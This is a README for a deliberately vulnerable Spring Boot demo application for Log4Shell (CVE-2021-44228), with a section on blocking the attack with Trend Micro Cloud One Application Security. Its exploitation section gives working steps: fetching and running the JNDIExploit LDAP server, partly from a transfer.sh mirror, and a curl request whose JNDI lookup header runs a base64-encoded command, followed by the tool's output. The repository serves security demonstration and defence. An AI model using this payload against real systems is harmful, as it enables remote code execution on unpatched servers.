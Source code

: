 # Log4Shell sample vulnerable application (CVE-2021-44228), protected by Cloud One Application Security

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/), and was modified to add Trend Micro's Cloud One Application Security agent to demonstrate technique-based web application protection to this vulnerability.

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t log4shell-vulnerable-app-c1as
docker run --rm -d -p 8080:8080 --name log4shell-vulnerable-app-c1as log4shell-vulnerable-app-c1as
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip #(looks down, try https://transfer.sh/puxohI/JNDIExploit.v1.2.zip)
unzip JNDIExploit.v1.2.zip
nohup java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888 &
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Protection with Cloud One Application Security

This assumes you have (already integrated the agent to your application.)[https://cloudone.trendmicro.com/docs/application-security/install-agent/]

1. Log into Trend Micro Cloud One and navigate to Application Security.
2. Select "Group's Policy" on the left-hand menu and find your application's Group.
3. Enable "Remote Command Execution" if not already enabled.
4. Click the hamburger icon for "Configure Policy" and then click the " < INSERT RULE > " icon.
5. Input ```(?s).*``` in the "Enter a pattern to match" field and hit "Submit" and "Save Changes."
6. Double-check that "Mitigate" is selected in your "Remote Command Execution" line item.



## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
https://success.trendmicro.com/solution/000289940
https://www.trendmicro.com/en_us/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-acti.html


## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
